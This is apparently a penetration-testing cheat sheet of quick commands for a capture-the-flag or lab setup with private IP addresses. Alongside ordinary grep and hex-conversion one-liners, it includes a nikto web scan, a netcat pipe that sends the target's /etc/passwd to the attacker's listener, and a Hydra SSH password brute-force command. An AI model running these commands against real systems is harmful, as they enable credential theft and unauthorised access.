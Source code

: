 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`
**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`
